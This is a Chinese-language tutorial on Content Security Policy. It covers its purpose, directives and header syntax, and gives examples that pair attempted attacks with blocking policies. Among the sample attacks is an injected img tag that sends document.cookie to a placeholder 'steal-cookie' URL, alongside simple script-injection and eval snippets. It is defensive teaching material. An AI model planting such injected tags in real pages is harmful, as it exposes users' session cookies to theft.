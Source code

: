 # 内容安全策略（CSP）

## 1. CSP 概述
### 1.1 定义
内容安全策略（Content Security Policy，简称 CSP）是一种浏览器安全特性，它允许网站管理员控制网页上可以加载和执行的资源。CSP 的主要目的是有效防御跨站脚本攻击（XSS）及其他网络安全威胁。

### 1.2 目标
- **防御 XSS 攻击：** 通过阻止恶意脚本注入来保护用户。
- **降低数据泄漏风险：** 限制与外部站点的交互，从而减少数据被非授权方访问的可能性。
- **控制外部资源加载：** 明确指定安全的资源，阻止不安全或未授权的资源加载。

## 2. 实施 CSP
### 2.1 设置 CSP 头部
CSP 通过在 HTTP 头部中添加规则来实现，格式通常如下：
```http
Content-Security-Policy: directive1 value1; directive2 value2; ...
```

### 2.2 主要

指令
- **default-src：** 定义默认资源加载策略，适用于所有资源类型。
- **script-src：** 限制 JavaScript 脚本的来源，控制执行脚本的域。
- **style-src：** 设置允许加载的样式表来源。
- **img-src：** 指定允许加载的图片资源。
- **connect-src：** 限制通过 XHR、WebSocket 等技术进行的数据传输。
- **font-src：** 规定可加载的 Web 字体资源。
- **frame-src：** 指定哪些源可以作为框架或 iframe 嵌入。
- **media-src：** 定义允许加载的音频和视频资源。
- **object-src：** 控制插件类型资源的加载。
- **form-action：** 规定表单提交的目标 URL，有助于防御 CSRF 攻击。
- **frame-ancestors：** 控制页面是否可以被嵌入到其他框架或 iframe 中。
- **plugin-types：** 限制通过插件加载的内容类型。
- **base-uri：** 限制 `<base>` 元素的 URL。
- **manifest-src：** 控制 Web 应用程序清单文件的加载。
- **require-sri-for：** 要求通过 Subresource Integrity (SRI) 验证的资源类型。
- **report-uri/report-to：** 指定接收 CSP 违规报告的端点。

## 3. CSP 的优势
### 3.1 提高安全性
CSP 显著减少潜在的安全威胁，尤其在防御 XSS 攻击方面表现卓越。

### 3.2 降低数据泄漏风险
通过限制跨域交互，CSP 有效减少敏感数据被非授权方访问的风险。

### 3.3 减轻安全漏洞影响
即使存在安全漏洞，CSP 通过限制可执行脚本和其他资源的加载，降低潜在危害。

## 4. 实际案例与攻击示例
### 4.1 基本 CSP 头部实现
只允许同源资源加载：
```http
Content-Security-Policy: default-src 'self';
```

### 4.2 特定来源脚本
允许从本站点和指定可信站点加载脚本：
```http
Content-Security-Policy: script-src 'self' coinex.com;
```

### 4.3 攻击示例
#### 4.3.1 防御 XSS 攻击
- **尝试：**
  ```html
  <!-- 用户评论中的脚本 -->
  <script>alert('这是一个示例!');</script>
  ```
- **CSP 设置：** `Content-Security-Policy: script-src 'self';`
- **效果：** 只执行来自同一源的脚本，阻止外部脚本执行。

#### 4.3.2 防止内联脚本攻击
- **尝试：**
  ```html
  <!-- 内联脚本注入 -->
  <script>console.log('内联脚本执行');</script>
  ```
- **CSP 设置：** `Content-Security-Policy: script-src 'self' 'nonce-随机值';`
- **效果：** 只执行带有正确 nonce 的脚本，防止未授权内联脚本执行。

#### 4.3.3 防止 `unsafe-eval` 攻击
- **尝试：**
  ```javascript
  // 假设的攻击代码 恶意代码作为字符串，通过 eval() 执行
  var maliciousCode = "alert('恶意代码执行')";
  eval(maliciousCode);
  ```
- **CSP 设置：** `Content-Security-Policy: script-src 'self' 'nonce-随机值';`
- **效果：** 阻止使用 `eval()` 执行恶意代码字符串。

#### 4.3.4 防止外部样式注入
- **尝试：**
  ```html
  <!-- 外部样式注入 -->
  <link rel="stylesheet" href="https://example.com/malicious-style.css">
  ```
- **CSP 设置：** `Content-Security-Policy: style-src 'self';`
- **效果：** 仅允许加载来自同一源（网站本身）的样式表。任何来自外部域的样式表都将被阻止。

#### 4.3.5 阻止数据盗取
- **尝试：**
  ```html
  <!-- 图像标签注入 -->
  <img src="https://example.com/steal-cookie?cookie=" + document.cookie />
  ```
- **CSP 设置：** `Content-Security-Policy: img-src 'self';`
- **效果：** 只加载来自同一源的图片，阻止数据通过图像请求发送到外部服务器。

#### 4.3.6 控制字体加载
- **尝试：**
  攻击者尝试通过从外部源加载恶意字体文件来执行攻击。
  ```html
  <!-- 外部字体文件 -->
  @font-face {
    font-family: 'MyWebFont';
    src: url('https://example.com/malicious-font.woff2') format('woff2');
  }
  ```
- **CSP 设置：** `Content-Security-Policy: font-src 'self';`
- **效果：** 这个策略限制字体文件只能从当前网站源加载，从而防止了外部恶意字体文件的加载。

#### 4.3.7 阻止任何类型的插件
- **尝试：**
  攻击者尝试通过嵌入 `<object>` 或 `<embed>` 标签来加载恶意插件。
  ```html
  <!-- 插件嵌入 -->
  <object data="malicious-plugin.swf" type="application/x-shockwave-flash"></object>
  ```
- **CSP 设置：** `Content-Security-Policy: object-src 'none';`
- **效果：** 这个策略将阻止网页加载任何类型的插件，从而增加了安全性。

## 5. 注意事项与最佳实践
- **调试与测试：** 确保 CSP 规则不误阻合法资源。
- **浏览器兼容性：** 考虑不同浏览器对 CSP 的支持差异。
- **持续更新：** 根据应用和外部资源的变化适时调整 CSP 规则。
- **多层防御：** 将 CSP 作为全面安全策略的一部分，与数据验证等措施结合使用。

## 6. 结论
CSP 是现代 Web 应用安全的关键组成部分，通过规范化资源加载方式，有效防御多种网络威胁。合理配置和维护 CSP 规则是提高应用程序安全性的重要步骤，可以显著降低遭受攻击的风险。
